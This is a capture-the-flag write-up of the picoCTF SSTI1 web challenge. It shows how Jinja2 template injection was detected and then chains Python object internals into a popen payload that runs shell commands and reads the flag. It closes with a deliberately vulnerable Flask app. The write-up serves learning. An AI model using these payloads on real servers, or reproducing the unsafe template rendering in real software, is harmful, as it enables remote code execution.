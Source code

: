 # SSTI1

[picoCTF](https://play.picoctf.org/practice/challenge/492)

### Web Exploitation

- This is web exploitation CTF.

- A web application running which outputs user input.

- so we try to figure out if input can be executed.

- typing `<script alert(1)</script>` did execute, we can do XSS.

- Since the application is not JS based and JS is only on the front end we can't do much. So we try to do SSTI (Server side template injection).

- We try to see which template engine is the server running. 

### Detection

- First we need to see if there can be a template injection. Most templates use symbols like `$ { } {{ }} {% %}` so if we input something similar we should get a response that is not usual like an error of execution of that template.

- You can use ``${{<%[%'"}}%\``  to see if  an error occurs. If it does then we can do template injection. But this can also blow your cover so try to be smart on this.

- Now we have to find out which template engine it is. When I opened the request in Burp suite I saw that response was from a Python server so I know that it is a python template. 

- ![image](/home/som/Downloads/template-decision-tree.png)

- this is how we decide which template it is. This does not cover all the templates. If you could find out with some other way what the language is you can narrow down the language search. 

- so since the packet told me the response was from python i tried `{{ 7*7}}`and result came back as 49. then `{{7*'7'})` returned `7777777` so i knew it was `jinja2` template engine. [Server-side template injection | Web Security Academy](https://portswigger.net/web-security/server-side-template-injection) This explains that.

- Now we know this vulnerability exists.

---

### Exploitation

- Before we deep dive rad this [Exploiting server-side template injection vulnerabilities | Web Security Academy](https://portswigger.net/web-security/server-side-template-injection/exploiting)

- Now here we know we are fighting jinja2 template engine. best way to learn is to look for common vulnerabilities and look through the documentation.

- In my research I found out about template variable. There are a few but only few were necessary. Now the jinja2 template runs on a sandbox and we need a way to get out of that sandbox. Something that can talk to the underlying os.

- In flask apps there is a special variable `g` to store information during a request that means it holds the ability to reference few other variables too one of which might have a function that can make a call outside the sandbox.



**TODO: learn more here**

- then `__class__` this returns class of an object.

- `__mro__` returns base class of a class.

- `__subclasses__()` is a method that list all the subclasses of a class.

- so now chain them together. `{{ g.__class__.__mro__[1].__subclasses__()}}`
  
  - `g.__class__` gives us the `<class 'object'>`
  
  - `g.__class__.__mro__` give `<class 'object'>, <class 'object'>`
  
  - we take the second object and look at the subclasses it has. `g.__class__.__mro__.__subclasses__()` this gives us a shit ton of function available.
  
  - I searched for `os`, `open`, `path`, `IO` and similar names.
  
  - then I found out the function `popen` and read about it. Then I searched for which comma was after it, it was 357 so `popen` was at 356th location.
  
  - `g.__class__.__mro__[1].__subclasses__()[356]('ls')` and it returned the address of the answer. Now we need to convert it to data.
  
  - We use communicate for that and some extra arguments. 
  
  - `g.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate()[0]` this show all the files in the current folder and there is a file named flag.
  
  - `g.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate()[0]` this gives us the actual flag and voila.

---

### Practice

- Here we will make a simple SSTI exploitable flask app in python.

- ```python
  from flask import Flask, request, render_template_string
  
  app = Flask(__name__)
  
  @app.route("/")
  def home():
      if request.args.get('c'):
          return render_template_string(request.args.get('c'))
      else:
          return "Bienvenue!"
  
  if __name__ == "__main__":
      app.run(debug=True)
  ```

- Save this, install python and run it.

- Now what ever you pass in the arguments `c=...`will be executed by the server
